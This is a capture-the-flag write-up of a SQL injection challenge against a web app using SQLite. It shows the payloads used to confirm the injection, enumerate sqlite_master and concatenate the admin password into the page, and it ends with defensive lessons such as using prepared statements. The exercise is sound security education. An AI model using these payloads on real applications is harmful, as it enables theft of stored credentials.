 # Share the ideas CTF Challenge Writeup

## **Challenge Overview**
We encountered a web application with a vulnerable parameter that allowed SQL injection. Our goal was to extract sensitive data, particularly the admin password, which turned out to be a flag.

## **Step 1: Identifying the Vulnerability**
### **Observing User Input Handling**
- The application accepted user input via a parameter called `idea`.
- The input was reflected in the HTML response, indicating possible direct execution of SQL queries.
- By appending a simple SQL payload, we could determine if the application was vulnerable.
- It sounds basic, but the most importand step is to figure out what the db is.The error
  
**"HY000 1 unrecognized token: `')`"** suggests that you are using **SQLite**.  

### Why is it likely SQLite?  
1. **Error Code `HY000 1`**  
   - The `HY000` is a generic SQLSTATE error code for "general error."  
   - The `1` after it is a common SQLite-specific error code indicating syntax issues.  


### **Testing for SQL Injection**
We started with a basic SQL injection test:

```sql
idea=test' OR '1'='1
```

If the application displayed unexpected behavior, such as listing all records or modifying the response, this would confirm an SQL injection vulnerability.

## **Step 2: Extracting Database Metadata**
Once confirmed, we attempted to enumerate the database structure using SQLite’s metadata table:

![image](https://github.com/user-attachments/assets/7e120567-a00b-4d53-8f1e-9e6fd5d284ba)

```sql
SELECT sql FROM sqlite_master;
```

This revealed the schema of the database, including a table called `xde43_users`, which contained the following columns:

![image](https://github.com/user-attachments/assets/e3bd580f-2f13-4f97-bd57-5f04107bd761)


```sql
CREATE TABLE "xde43_users" (
    "id" int(10) NOT NULL,
    "name" varchar(255) NOT NULL,
    "email" varchar(255) NOT NULL,
    "password" varchar(255) NOT NULL,
    "role" varchar(100) DEFAULT NULL
)
```

## **Step 3: Extracting the Admin Password**
From the table schema, we identified the `password` column and attempted to retrieve the admin’s password:
![image](https://github.com/user-attachments/assets/d20cd01e-0238-4495-97f8-318e839f00ca)


```sql
idea=test ' || (SELECT password FROM xde43_users WHERE role='admin') || '
```

The response contained the flag:

```html
<p class="list-group-item-text"> test flag245698 </p>
```

## **Step 4: Understanding the Exploit**
### **Why Did This Work?**
- SQLite allows string concatenation with `||`, making it possible to inject our query.
- The web application directly executed our injected SQL statement.
- The `SELECT password FROM xde43_users WHERE role='admin'` query returned the admin password, which was displayed on the page.

### **Improving the Exploit**
If multiple admin users existed, this query might fail due to multiple results. To ensure stability, we could use:

```sql
SELECT password FROM xde43_users WHERE role='admin' LIMIT 1;
```
Or, to concatenate multiple results:

```sql
SELECT group_concat(password) FROM xde43_users WHERE role='admin';
```

## **Step 5: Conclusion & Lessons Learned**
### **Key Takeaways:**
1. **SQL Injection is still a major security risk** if input validation is not enforced.
2. **Metadata tables in SQLite (`sqlite_master`) provide crucial information** about the database structure.
3. **Web applications should use prepared statements** to prevent SQL injection.
4. **Capture The Flag (CTF) challenges teach real-world exploitation techniques** in a safe environment.

## **Final Flag:**
```
flag245698
```

